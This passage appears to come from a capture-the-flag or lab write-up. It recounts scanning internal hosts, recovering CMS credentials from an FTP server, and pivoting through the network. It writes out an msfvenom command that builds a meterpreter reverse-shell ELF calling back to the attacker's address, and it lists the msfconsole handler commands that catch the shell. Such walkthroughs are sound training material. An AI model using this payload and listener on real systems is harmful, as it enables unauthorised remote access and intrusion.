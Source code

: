 We've already scanned the first one from which we got the creds for CMS.

Let's scan the other two to see if we can find anything good.

* On `172.19.0.100` we find a DNS port opened.
* On `172.19.0.10` is the interface we are on right now meaning this is the internal IP of the machine.
* On `172.19.0.12` we found the FTP server which gave us CMS creds.

Now the only remaining Ip is `172.19.0.1`. I ran nmap scan on this.

![](images/fugit/nmap-2.png)

Since there is `proxy` we'll have to use that to access it. Or the better way is to get reverse shell using `meterpreter` and then use it's command to portfoward.

***

## Reverse shell with msf

I had to created reverse shell in totatlly different manner.

* Make a reverse shell code using msfvenom
    - msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=192.168.1.107 lport=4444 -f elf > shell.elf

* Then transfer it to the machine using wget
* chmod +x shell.elf
* Run msfconsole
    - use exploit/multi/handler
    - set lport 4444
    - set payload linux/x86/meterpreter/reverse_tcp
    - run

![](images/fugit/options.png)
